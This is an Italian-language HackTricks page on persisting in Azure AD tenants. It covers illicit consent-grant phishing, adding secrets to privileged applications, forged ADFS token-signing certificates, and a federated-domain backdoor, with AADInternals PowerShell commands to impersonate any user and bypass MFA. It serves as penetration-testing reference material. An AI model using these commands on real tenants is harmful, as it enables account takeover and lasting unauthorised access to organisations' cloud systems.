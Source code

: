 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Per impostazione predefinita, qualsiasi utente può registrare un'applicazione in Azure AD. Quindi puoi registrare un'applicazione (solo per il tenant target) che necessita di permessi ad alto impatto con consenso dell'amministratore (approvala se sei l'amministratore) - come inviare email per conto di un utente, gestione dei ruoli, ecc. Questo ci permetterà di **eseguire attacchi di phishing** che sarebbero molto **fruttuosi** in caso di successo.

Inoltre, potresti anche accettare quell'applicazione con il tuo utente come modo per mantenere l'accesso su di essa.

### Applications and Service Principals

Con i privilegi di Application Administrator, GA o un ruolo personalizzato con permessi microsoft.directory/applications/credentials/update, possiamo aggiungere credenziali (segreto o certificato) a un'applicazione esistente.

È possibile **prendere di mira un'applicazione con permessi elevati** o **aggiungere una nuova applicazione** con permessi elevati.

Un ruolo interessante da aggiungere all'applicazione sarebbe il **ruolo di amministratore dell'autenticazione privilegiata** poiché consente di **reimpostare la password** degli Amministratori Globali.

Questa tecnica consente anche di **bypassare MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Per l'autenticazione basata su certificati

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federazione - Certificato di Firma del Token

Con **privilegi DA** su AD on-prem, è possibile creare e importare **nuovi certificati di firma del token** e **certificati di decrittazione del token** che hanno una validità molto lunga. Questo ci permetterà di **accedere come qualsiasi utente** il cui ImuutableID conosciamo.

**Esegui** il comando qui sotto come **DA sui server ADFS** per creare nuovi certificati (password predefinita 'AADInternals'), aggiungerli a ADFS, disabilitare il rollover automatico e riavviare il servizio:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Poi, aggiorna le informazioni del certificato con Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Con privilegi GA su un tenant, è possibile **aggiungere un nuovo dominio** (deve essere verificato), configurare il suo tipo di autenticazione su Federato e configurare il dominio per **fidarsi di un certificato specifico** (any.sts nel comando qui sotto) e dell'emittente:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Riferimenti

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}
